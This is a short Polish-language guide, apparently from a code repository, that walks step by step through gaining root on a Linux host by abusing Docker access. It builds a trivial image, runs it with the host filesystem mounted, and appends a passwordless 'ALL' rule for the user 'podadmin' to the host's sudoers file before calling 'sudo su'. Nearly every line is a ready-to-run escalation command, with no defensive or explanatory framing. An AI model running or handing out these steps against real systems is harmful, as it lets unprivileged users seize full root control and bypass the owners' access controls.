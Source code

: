 # =============== MAJSTER -> user ===============

## Tworzymy w folderze domowym usera podadmin folder dajroot w którym umieszczamy skrypt

- ### mkdir /home/podadmin/dajroot
- ### cd /home/podadmin/dajroot
- ### nano Dockerfile
    
    FROM dockette/wheezy
    ENV WORKDIR /dajroot
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
    


## Budujemy skrypt w folderze
- ### docker build -t dajroot .

## Sprawdzamy, czy się zainstalował
- ### docker images

## Odpalamy container
- ### docker run -v /:/dajroot -it dajroot /bin/bash

## Będąc w kontenerze wpisujemy
- ### cd..
- ### echo "podadmin ALL=(ALL) NOPASSWD:ALL" >> /dajroot/etc/sudoers

## Patrzytmy czy w pliku sudoers jest dopisek "podadmin ALL=(ALL) NOPASSWD:ALL"
- ### cat dajroot/etc/sudoers

## Wychodzimy z containera
- ### exit

## Robimy przejecie roota
- ### sudo su

===================
